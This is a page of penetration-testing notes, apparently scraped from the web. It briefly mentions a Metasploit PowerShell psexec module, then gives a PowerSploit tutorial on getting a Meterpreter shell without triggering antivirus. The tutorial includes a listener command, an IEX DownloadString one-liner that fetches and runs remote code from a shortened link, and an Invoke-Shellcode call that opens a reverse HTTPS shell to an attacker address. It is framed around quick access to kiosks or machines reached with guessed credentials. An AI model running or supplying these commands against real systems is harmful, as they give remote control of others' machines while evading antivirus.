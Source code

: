 At the very minimum, will need to set the LHOST, RHOST, ARCH, SMBUSER and SMBPASS variables.

And if all goes as planned...

Also we can see that the only thing spawned on the target machine is one powershell process:

You can find the module on github https://github.com/jakxx/metasploit-framework/blob/powershell_psexec/modules/exploits/windows/powershell/powershell_psexec.rb.


################################################
#PowerSploit: The Easiest Shell You’ll Ever Get#
################################################

Reference:
https://www.pentestgeek.com/2013/09/18/invoke-shellcode/

Sometimes you just want a shell. You don’t want to worry about compiling a binary, testing it against antivirus, figuring out how to upload it to the box and finally execute it. Maybe you are giving a demo of an awesome new Meterpreter post-exploitation module. Maybe you have less than a minute of physical access to a Windows kiosk machine and need a quick win. There are plenty of scenarios that end in a penetration tester gaining GUI access to a target machine through guessed or found RDP, ESX or VNC credentials. In those situations, the easiest way to get a Meterpreter shell without worrying about AV is with PowerSploit.

PowerSploit  is a collection of security-related modules and functions written in PowerShell. PowerSploit is already in both BackTrack and Kali, and its code is utilized by other awesome tools like SET  so you may already be using it!  Many of the scripts in the project are extremely useful in post-exploitation in Windows environments.  The project was started by Matt Graeber who is the author of the function we will use in this tutorial: Invoke-Shellcode.


In order for this to work, the target machine must have PowerShell installed and internet access. The first step is for us to set up our handler on our attacker box. This is something we will likely do often, so let’s automated it with a really simple Python script:

script PowerSploit: The Easiest Shell Youll Ever Get

To start the multi/handler and configure it, we just run the script:

python StartListener.py 192.168.0.15 443

Now that our handler is ready, we can move on to executing our shell.  The first thing I did to make the next step easier to type is shorten the github link to Invoke-Shellcode with bitly:

bitly PowerSploit: The Easiest Shell Youll Ever Get

Next, we need to run two commands in a PowerShell prompt to get our Meterpreter shell. The first command will create a .Net WebClient Object to download the function and pass it to Invoke-Expression to put it into memory:

IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/14bZZ0c’)

Now we just need to make a call to the Invoke-Shellcode function with the relevant parameters from the listener:

Invoke-Shellcode –Payload windows/meterpreter/reverse_https –Lhost 192.168.0.15 –Lport 443 –Force

We can actually combine these commands to run a single command to execute our shell:

IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/14bZZ0c’); Invoke-Shellcode –Payload windows/meterpreter/reverse_https –Lhost 172.0.1.200 –Lport 443 –Force
